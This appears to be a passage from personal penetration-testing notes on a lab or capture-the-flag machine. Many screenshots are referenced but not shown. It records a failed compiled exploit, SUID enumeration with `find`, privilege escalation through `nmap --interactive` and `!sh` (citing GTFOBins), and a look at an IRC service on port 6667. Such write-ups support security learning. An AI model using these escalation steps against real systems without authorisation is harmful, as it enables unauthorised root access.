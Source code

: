 Compile using `gcc`

![[Pasted image 20240621121048.png]]

Run
![[Pasted image 20240621121150.png]]
![[Pasted image 20240621121259.png]]

So this payload is looking for a file named `run`
Create:
![[Pasted image 20240621121757.png]]

⚠️ After some time poking around I decided to move on as I couldnt get this exploit to successfully spawn a shell ⚠️ 

***

### Priv ESC: SUID on NMAP
`T1548.001:Privilege Escalation: SUID SGID`
#TTP 


Linpeas could be imported and run for a more thorough analysis although this command will suffice for now

`find / -perm -u=s -type f 2>/dev/null`
![[Pasted image 20240624202941.png]]

**GTFO BINS**
https://gtfobins.github.io/gtfobins/nmap/

`nmap --version`
![[Pasted image 20240624203215.png]]

![[Pasted image 20240624203252.png]]


`nmap --interactive`
`!sh`
![[Pasted image 20240624203446.png]]


****
***
### **IRC Port 6667**

Running `ss tuln` reveals an interesting service port on `6667`
![[Pasted image 20240624203848.png]]

`ps -auxww | grep irc`
![[Pasted image 20240624203944.png]]
![[Pasted image 20240624204427.png]]

